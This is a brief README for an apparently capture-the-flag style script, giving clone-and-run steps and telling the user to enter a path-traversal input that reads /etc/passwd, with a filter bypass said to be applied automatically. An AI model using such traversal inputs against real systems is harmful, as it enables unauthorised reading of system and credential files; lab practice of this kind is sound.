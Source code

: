 # BroScience-Script

## How to use it?
```bash
git clone https://github.com/h4ckerlite/BroScience-Script.git
cd BroScience-Script
chmod +x script.sh
./script.sh
```
# Follow the steps below:
## When prompted for the path: type the complete path.

## Enter the path: ../../../../../../../../etc/passwd
**NOTE:** Bypass is applied automatically.
![img](img/help.png)
